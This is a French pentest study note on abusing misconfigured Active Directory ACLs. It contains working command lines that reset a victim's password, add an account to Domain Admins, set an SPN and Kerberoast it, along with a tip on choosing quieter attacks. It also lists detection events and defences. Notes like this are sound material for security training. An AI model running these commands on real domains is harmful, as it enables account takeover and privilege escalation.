

# ACL Abuse (AD)

> [!info] **En 1 phrase**
> ACL Abuse = exploiter des **permissions mal configurées** (ACL) sur les objets AD : un compte
> avec `GenericAll`, `WriteDACL`, `GenericWrite`... peut **modifier** d'autres comptes ou groupes.

---

## Concept



> [!info] **Pourquoi ça marche**
> Les droits sur les objets AD ne se limitent pas à "admin du domaine" : un simple utilisateur
> peut avoir des droits spécifiques (réinitialiser le mdp de X, écrire l'ACL de Y...). L'abuser,
> c'est exploiter la **délégation de droits**.

---

## Les droits dangereux

| Droit | Effet |
|---|---|
| **GenericAll** | Contrôle total de l'objet → reset mdp, ajout membre... |
| **GenericWrite** | Modifier les attributs → ajouter un **SPN** (Kerberoast), modifier scriptPath (logon script = RCE) |
| **WriteDACL** | Réécrire les ACL → se donner des droits (auto-élévation) |
| **WriteOwner** | Devenir propriétaire → puis modifier l'ACL |
| **ForceChangePassword** | Réinitialiser le mot de passe de la victime (sans le connaître) |
| **AddMember** | Ajouter un membre à un groupe (ex : Domain Admins) |

---

## Exploitation

```bash
# 1. Détection : BloodHound (ACL analysées) - chercher les arêtes vers DA
# 2. Reset de mot de passe (GenericAll / ForceChangePassword)
nxc ldap 192.168.1.10 -u user -p pass --password-reset victim:NewPass123!

# 3. Ajouter au groupe Domain Admins (AddMember / WriteDACL)
bloodyAD -d corp.local -u user -p pass --host DC01 add groupMember 'Domain Admins' victim

# 4. GenericWrite → ajouter un SPN pour Kerberoast
bloodyAD -d corp.local -u user -p pass --host DC01 set targetSPN 'victim HTTP/x'

# 5. Puis Kerberoast la victime
GetUserSPNs.py -dc-ip 192.168.1.10 'corp.local/user:pass' -request
```

---

## Détection & Défense

| Indicateur | Détail |
|---|---|
| **Événement 4662** | Opérations sur des objets (modification ACL, changement mdp) |
| **Événement 4735/4743** | Modification de groupes |
| **Réponse** | Auditer les ACL sensibles (BloodHound en continu), retirer les droits inutiles, surveiller les changements de mdp |

---

## Tips & Pièges

> [!tip] **Le "qu'est-ce qu'on peut faire avec X ?"**
> BloodHound : clique sur ton utilisateur → onglet "Outbound Object Control" → tous les chemins
> exploitables. C'est **la source n°1 des chemins d'élévation** dans AD.

> [!warning] **Piège** : un reset de mot de passe **force le logout** de la victime → bruyant.
> Préfère les attaques "sans impact" (SPN add, delegation) quand c'est possible.

---

## Liens

- [[Kerberoasting| Kerberoasting]] (résultat possible via GenericWrite)
- [[NTLM Relay| NTLM Relay]] (delegation via LDAP)
- [[ADCS et Certificats (ESC)| ADCS/ESC]]
- → Note complète : [[05 - Active Directory| Active Directory]]
